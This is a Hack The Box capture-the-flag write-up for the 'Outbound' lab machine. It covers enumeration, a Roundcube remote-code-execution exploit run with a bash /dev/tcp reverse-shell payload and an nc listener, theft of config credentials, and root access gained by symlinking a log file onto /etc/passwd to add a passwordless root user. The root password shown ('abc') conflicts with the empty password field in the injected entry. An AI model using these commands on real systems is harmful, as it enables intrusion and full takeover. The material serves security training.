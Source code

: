 # 🚪 Hack The Box – Outbound (Easy)

**Machine IPAddress**: `10.10.11.77`
**Solved by**: Akshat Nigam 
**Difficulty**: Easy
**Category**: Linux | Web | Privilege Escalation
**Date**: July 2025

---

## 🕵️ Step 1: Finding Open Services (Enumeration)

### 🔎 Nmap Scan

I started by scanning the target to see which ports were open and what services were running:

```bash
nmap -sV -sC 10.10.11.77 -v
```
This scan showed me two open ports:

* **22** – SSH (for remote login)
* **80** – HTTP (web server using nginx)

When I visited `http://10.10.11.77`, it redirected to a domain: `mail.outbound.htb`. To access it properly, I added it to my `/etc/hosts` file:

```bash
echo "10.10.11.77 mail.outbound.htb" | sudo tee -a /etc/hosts
```

---

## 🔐 Step 2: Finding a Way In (Exploitation)

### 🔍 Checking for Known Vulnerabilities

I used a tool called **Nuclei** to scan the website for known vulnerabilities:

```bash
nuclei -u http://mail.outbound.htb -tags cves
```
You have to manually update the templates for the nuclei tool. As this tool is a great vulnerability scanner developed by ProjectDiscovery and allows templates written in YAML to detect known vulnerabilities, misconfigurations, CVEs, and exposures in targets like web applications, APIs, and servers.

This flagged a **critical vulnerability**:

> 🔥 `CVE-2025-49113` – Roundcube Webmail Remote Code Execution

---

### 💣 Exploiting the Roundcube Vulnerability

I found a public exploit online and used it to get a shell:

```bash
git clone https://github.com/hakaioffsec/CVE-2025-49113-exploit
cd CVE-2025-49113-exploit
python3 exploit.py -u http://mail.outbound.htb -e "bash -i >& /dev/tcp/<my-ip>/<port> 0>&1"
```

This gave me a low-privilege shell (basic access to the system).

To make the shell more stable, I used:

```bash
rlwrap nc -lvnp <port>
```



To gain fully interactive TTYs during reverse shells and to bypass restricted shells: 

```bash
script -q /dev/null

```
---

## 🧠 Step 3: Finding Credentials

I checked the Roundcube configuration file and found database credentials:

```
/var/www/html/config/config.inc.php
```

```php
$rcmail_config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
```

I logged into the database and looked at the session table. It had encrypted secrets stored using **Triple-DES (3DES)**.

Using the key from the config file:

```
rcmail-!24ByteDESkey*Str
```

…I was able to decrypt the session and recover user login credentials!

---

## 🔐 Step 4: SSH Login as Jacob

Using the recovered credentials, I logged in as `jacob` via SSH:

```bash
ssh jacob@10.10.11.77
```

Now I had a proper user shell on the machine.

---

## 🚀 Step 5: Privilege Escalation to Root

### 🔍 Checking Sudo Permissions

I ran:

```bash
sudo -l
```

…and found that I could run the binary `/usr/bin/below` as root **without a password**!

```bash
(ALL) NOPASSWD: /usr/bin/below *
```

But some arguments were blocked.

---

### 📛 Exploiting CVE-2025-27591 – Arbitrary File Write

The `below` binary had a known vulnerability that allowed **arbitrary file writes using symlinks**.

#### 🧪 Exploitation Steps:

1. Create a fake root user entry:

```bash
echo 'root2::0:0:root:/root:/bin/bash' > /tmp/payload
```

2. Point the log file to `/etc/passwd` using a symbolic link:

```bash
rm /var/log/below/error_root.log
ln -s /etc/passwd /var/log/below/error_root.log
```

3. Run the vulnerable binary:

```bash
sudo /usr/bin/below
```

4. In the binary interface, paste the contents of `/tmp/payload`. This writes a new root user entry into `/etc/passwd`.

5. Switch to the new root user:

```bash
su root2
Password: abc
```

🎉 Got root!

---

## 📌 Summary

| Phase            | Technique                                       |
| ---------------- | ----------------------------------------------- |
| Enumeration      | Nmap, Nuclei, manual recon                      |
| Initial Foothold | Roundcube RCE (CVE-2025-49113)                  |
| Credentials      | Config file → MySQL → Session → 3DES Decryption |
| Lateral Movement | SSH into user "jacob"                           |
| Privilege Escal. | CVE-2025-27591 using "below" binary             |

---

## ✅ Flags

* `user.txt` – Found as `jacob`
* `root.txt` – Found after root access

---


Thanks for reading! 🎯
